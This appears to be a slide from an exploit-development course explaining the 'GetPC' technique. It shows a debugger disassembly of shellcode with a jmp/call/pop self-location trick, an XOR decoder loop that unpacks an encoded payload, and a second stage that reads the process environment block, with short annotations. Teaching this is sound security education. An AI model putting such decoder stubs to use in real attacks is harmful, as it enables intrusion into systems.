

Exploit Elements: Where Am I? (aka GetPC)
0:017> u 0x0150f60b
0150f60b eb10            jmp     0150f61d
0150f60d 5a              pop     edx
0150f60e 4a              dec     edx
0150f60f 33c9            xor     ecx,ecx
0150f611 66b93c01        mov     cx,13Ch
0150f615 80340a99        xor     byte ptr [edx+ecx],99h
0150f619 e2fa            loop    0150f615
0150f61b eb05            jmp     0150f622
0150f61d e8ebffffff      call    0150f60d
0150f622 704c            jo      0150f670
0150f624 99              cdq
0150f625 99              cdq
0150f626 99              cdq
0150f627 c3              ret
0150f628 fd              std
0150f629 38a999999912    cmp     byte ptr [ecx+12999999h],ch
...
0150f60b eb10            jmp     0150f61d
Pops return address into edx
0150f60d 5a              pop     edx

Pushes return address on the stack
0150f61d e8ebffffff      call    0150f60d

0150f622 e9d5000000     jmp    0150f6fc
0150f627 5a             pop    edx
0150f628 64a130000000   mov    eax,dword ptr fs:[0000030h]
...

Encoded Payload